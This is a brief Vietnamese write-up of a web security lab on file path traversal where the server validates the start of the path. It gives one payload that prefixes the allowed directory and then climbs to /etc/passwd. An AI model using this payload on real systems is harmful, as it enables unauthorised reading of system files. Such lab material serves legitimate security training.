

## File path traversal, validation of start of path

1. Theo đề bài, lab có lỗ hổng directory traversal trong url ảnh của product. Tuy nhiên ở lab này, server sẽ kiểm tra phần đầu của path có phải là ``/var/www/images/`` không.

2. Gửi payload
- ```/var/www/images/../../../etc/passwd```

